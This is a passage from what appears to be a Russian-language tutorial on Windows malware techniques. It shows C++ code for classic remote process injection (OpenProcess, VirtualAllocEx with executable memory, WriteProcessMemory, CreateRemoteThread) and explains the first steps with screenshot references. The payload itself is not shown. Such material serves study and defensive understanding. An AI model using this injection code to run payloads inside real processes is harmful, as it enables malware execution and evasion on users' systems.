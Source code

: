 ```cpp

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Сначала вам нужно получить PID процесса. Вы можете ввести этот PID вручную в нашем случае. Затем "откройте" процесс с помощью функции [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess), предоставляемой библиотекой `Kernel32`:   
![open process](./images/6/2021-09-19_00-16.png){width="75%"}

Далее используем `VirtualAllocEx`, которая позволяет выделить буфер памяти для удаленного процесса **(1)**:

![injection 5](./images/6/2021-09-19_00-31.png){width="75%"}
